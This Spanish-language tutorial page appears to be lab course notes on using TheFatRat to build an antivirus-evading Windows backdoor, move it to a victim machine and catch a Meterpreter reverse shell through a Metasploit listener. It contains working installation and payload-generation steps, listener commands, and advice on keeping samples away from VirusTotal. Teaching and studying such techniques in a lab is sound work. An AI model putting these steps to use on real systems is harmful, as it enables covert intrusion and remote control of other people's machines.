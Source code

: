 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Evasión con TheFatRat

Vamos a ver una herramienta que se utiliza para la evasion de defensas super popular que esta en el siguiente repositorio de `GitHub`:

URL = [TheFatRat GitHub](https://github.com/screetsec/TheFatRat)

No viene instalada por defecto en `kali` por lo que tendremos que realizar lo siguiente para instalarla, adelanto que esta herramienta trae varias tecnicas de `frameworks` famosas para la evasion de defensas, por eso es tan famosa:

```shell
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh
```

Mientras se esta instalando nos aparecera mas adelante una opcion la cual le daremos al `2`:

```
Select one of the options bellow                                                        
 +-----------------------------------------------------+                           
 | [ 1 ] Setup Backdoor-Factory Path Manually          |                           
 | [ 2 ] Install Backdoor-Factory from Kali Repository |                           
 +-----------------------------------------------------+                           
 
 Option : 2 
```

Despues nos aparecera esta otra opcion le daremos a `ENTER` seguidamente la `y`:

```
Write output directory for fatrat generated files or press enter to default.                              
Default : /root/Fatrat_Generated                                                                                                                                      
Write:                                                                             
 Do you want to create a shortcut for fatrat in your system                        
 so you can run fatrat from anywhere in your terminal and desktop ?                                                                                                   
 Choose y/n : y
```

Y con esto ya tendremos la herramienta instalada de forma correcta.

Ahora para iniciar la aplicacion tendremos que poner lo siguiente:

```shell
sudo fatrat
```

Y esto empezara a realizar los checkeos pertinentes para ver que todo este en orden, una vez realizado todo eso, nos pondra el siguiente mensaje:

```
==================================================================                   
         WARNING !  WARNING ! WARNING ! WARNING ! WARNING !                                
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                         
==================================================================                      
 ____  _____ _____ _____    _____ _____ __    _____ _____ ____                     
|    \|     |   | |_   _|  |  |  |  _  |  |  |     |  _  |    \                    
|  |  |  |  | | | | | |    |  |  |   __|  |__|  |  |     |  |  |                   
|____/|_____|_|___| |_|    |_____|__|  |_____|_____|__|__|____/                    
                         _____ _____                                               
                        |_   _|     |                                              
                          | | |  |  |                                              
                          |_| |_____|                                             
 _____ _____ _____ _____ _____    _____ _____ _____ _____ __                
|  |  |     | __  |  |  |   __|  |_   _|     |_   _|  _  |  |                      
|  |  |-   -|    -|  |  |__   |    | | |  |  | | | |     |  |__                    
 \___/|_____|__|__|_____|_____|    |_| |_____| |_| |__|__|_____|                              
==================================================================                             
       PLEASE DON'T UPLOAD BACKDOOR TO WWW.VIRUSTOTAL.COM                                  
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                    
==================================================================                                                                                                    
Press [Enter] key to continue ..............
```

Aqui nos avisa de que no subamos los binarios a `virustotal` ya que este lo comparte con los diferentes antivirus y asi pueden crear firmas para dicho binario y que despues no sirva para `bypassearlo`, despues de esto le daremos a `ENTER`, despues otra ver `ENTER` se iniciara una base de datos de `postgresql` y por ultimo veremos el menu de la herramienta:

```
resize: Time out occurred                                                                                                                                             
         ____                                                                      
        |    |                                                                     
        |____|                                                                     
       _|____|_       _____ _       _____     _   _____     _                      
        /  ee\_      |_   _| |_ ___|   __|___| |_| __  |___| |_                    
      .<     __O       | | |   | -_|   __| .'|  _|    -| .'|  _|                   
     /\ \.-.' \        |_| |_|_|___|__|  |___|_| |__|__|___|_|                     
    J  \.|'.\/ \                                                                   
    | |_.|. | | |   [--]   Backdoor Creator for Remote Acces [--]                  
     \__.' .|-' /   [--]  Created by: Edo Maland (Screetsec) [--]                  
     L   /|o'--'\   [--]            Version: 1.9.8           [--]                  
     |  /\/\/\   \  [--]          Codename: Target          [--]             
     J /      \.__\ [--]   Follow me on Github: @Screetsec   [--]                  
     J /      \.__\ [--]   Dracos Linux : @dracos-linux.org  [--]                  
     |/         /   [--]                                     [--]                  
       \      .'\.  [--]     SELECT AN OPTION TO BEGIN:      [--]                  
    ____)_/\_(___\. [--] .___________________________________[--]                  
   (___._/  \_.___)'\_.-----------------------------------------/                                                                                                 
        [01]  Create Backdoor with msfvenom                                        
        [02]  Create Fud 100% Backdoor with Fudwin 1.0                             
        [03]  Create Fud Backdoor with Avoid v1.2                                  
        [04]  Create Fud Backdoor with backdoor-factory [embed]                    
        [05]  Backdooring Original apk [Instagram, Line,etc]                       
        [06]  Create Fud Backdoor 1000% with PwnWinds [Excelent]                   
        [07]  Create Backdoor For Office with Microsploit                          
        [08]  Trojan Debian Package For Remote Acces [Trodebi]                     
        [09]  Load/Create auto listeners                                           
        [10]  Jump to msfconsole                                                   
        [11]  Searchsploit                                                        
        [12]  File Pumper [Increase Your Files Size]                          
        [13]  Configure Default Lhost & Lport                                    
        [14]  Cleanup                                                           
        [15]  Help                                                           
        [16]  Credits                                                         
        [17]  Exit                                                                                                                                           
 ┌─[TheFatRat]──[~]─[menu]:           
 └─────►   
```

Por lo que vemos podemos `backdoorizar` un binario de muchas formas en este `framework`, podemos hacerlo de diferentes formas con las diferentes herramientas que nos proporciona, incluso en la opcion `05` podemos ver que podemos generar una aplicacion como `instagram` para que cuando se ejecute, tambien se ejecute un `backdoor` que estara por detras para crearnos una `reverse shell`.

En este caso vamos a probar la opcion `2`, por lo que pondremos `2` y nos llevara a dicha tecnica viendo otras opciones:

```
  _______ ___ ___ ______   ___ ___ ___ ______  
  |   _   |   Y   |   _  \ |   Y   |   |   _  \ 
  |.  1___|.  |   |.  |   \|.  |   |.  |.  |   |
  |.  __) |.  |   |.  |    |. / \  |.  |.  |   |
  |:  |   |:  1   |:  1    |:      |:  |:  |   |
  |::.|   |::.. . |::.. . /|::.|:. |::.|::.|   |
   ---     ------- ------   --- --- --- --- ---   1.0
 
 Select one tool to create your Windows EXE FUD Rat 
 

 [ 1 ] - Powerstager 0.2.5 by z0noxz (powershell) (NEW)
 [ 2 ] - Slow But Powerfull (OLD)
 [ 3 ] - Return to menu

 ┌─[TheFatRat]──[~]─[FUDWIN]:
 └─────► 
```

En este caso podremos seleccionar el nuevo `payload` que ha salido para poder generarlo con `powershell` o podremos utilizar el viejo pero que es muy potente, vamos a darle al numero `2` y esto nos abrira una mini ventana de terminal en el que se nos generara el `payload`.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Despues de poner la `IP` y el puerto, veremos esto otro:

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Seleccionaremos la opcion `2` para que nos lo compile en `64 bits`, esto puede tardar un poco, pero cuando haya terminado veremos esto:

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Aqui nos comenta que ya compilo el binario de la `backdoor` pero que lo compilo una segunda vez el original para que este de forma mas ofuscada y el segundo compilado se llama `Powerfull-fud.exe` que es el que vamos a utilizar, nos muestra que esta en la siguiente ruta:

```shell
sudo ls -la /root/Fatrat_Generated
```

Info:

```
total 4528
drwxr-xr-x  2 root root    4096 Feb  8 07:03 .
drwx------ 12 root root    4096 Feb  8 07:03 ..
-rwxr-xr-x  1 root root 2591185 Feb  8 07:03 Powerfull.exe
-rwxr-xr-x  1 root root 2035665 Feb  8 07:03 Powerfull-fud.exe
```

Vemos que efectivamente se creo de forma correcta por lo que vamos a copiarnoslo a nuestro escritorio de `kali`.

```shell
sudo cp /root/Fatrat_Generated/Powerfull-fud.exe ~/Desktop
```

Ahora nos tendremos que pasar ese `binario` a la maquina `WS02` para probarlo a ver si lo detecta o no el `antivirus` hay a veces que lo puede detectar, ya que la forma en que la compila varia dependiendo de cuando lo ejecutes, por lo que hay que tener un poco de suerte tambien, pero vamos a probar a pasarnoslo a nuestra maquina victima `Windows`.

Por lo que vemos si nos lo pasamos a la maquina `Windows` con el `antivirus` activado, no nos lo va a detectar en mi caso, ahora vamos a probar a ejecutarlo, pero antes tendremos que estar a la escucha:

```shell
msfconsole -q
```

Ahora vamos a configurar la escucha:

```shell
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.5.205
set LPORT 7777
run
```

Ahora que estamos a la escucha, vamos a nuestra maquina victima `windows` y ejecutamos el binario directamente.

Si nos vamos donde tenemos la escucha tendremos que ver una conexion en `metasploit`, si tuvieramos alguna duda, podremos monitorearlo con `Wrireshark` por si vieramos trafico `TCP`, si vemos ese trafico es que se esta realizando la conexion, pero si no lo vemos es por que el binario esta mal formado o no se esta ejecutando de forma correcta.
